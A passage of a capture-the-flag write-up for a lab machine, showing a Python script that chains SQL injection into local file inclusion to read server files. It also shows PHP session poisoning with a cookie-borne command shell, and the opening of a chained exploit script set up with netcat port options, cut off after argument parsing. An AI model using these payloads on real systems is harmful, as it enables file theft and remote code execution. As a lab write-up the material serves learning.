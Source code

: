 {% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi2rce" %}

I scripted a quick LFI script:

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

while True:
    file = input("Enter file to read: ")
    param = {
    	'id': f"465' AND 1=2 UNION SELECT 'lol\\' UNION SELECT \\'{file}\\' -- -'-- -"
    }
   
    r = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False)
    print(r.text)
```

From here, I could read `/var/log/nginx/access.log`, and technically RCE is possible using this method but I struggled. I read the other methods from Hacktricks, and found that using PHP sessions worked.

I tried writing some extra cookies by adding `Cookie: PHPSESSID=n2jb3u50gv104k78v768i9h3h0; test=test` as a header, then reading `/var/lib/php/sessions/sess_<COOKIE>`, and it worked:

```
PHPSESSID|s:26:"n2jb3u50gv104k78v768i9h3h0";test|s:4:"test";<!-- </div> -->
```

Now I can set one of the cookies to be a urlencoded PHP command shell:

```php
<?php system('id');?>
```


This worked!

![](../../../.gitbook/assets/unattended-image-4.png)

Now, time to chain the exploit together.

```python
import requests
import argparse
import re
import sys
import socket
import urllib.parse
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_my_ip():
	s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
	s.connect(("10.10.10.1", 80))
	return s.getsockname()[0]

## PARSE ARGS
parser = argparse.ArgumentParser()
parser.add_argument('-n', '--nc-port', help='nc port', default=443)
parser.add_argument('--local-ip', '-i', help='local ip', default=None)
args = parser.parse_args()
```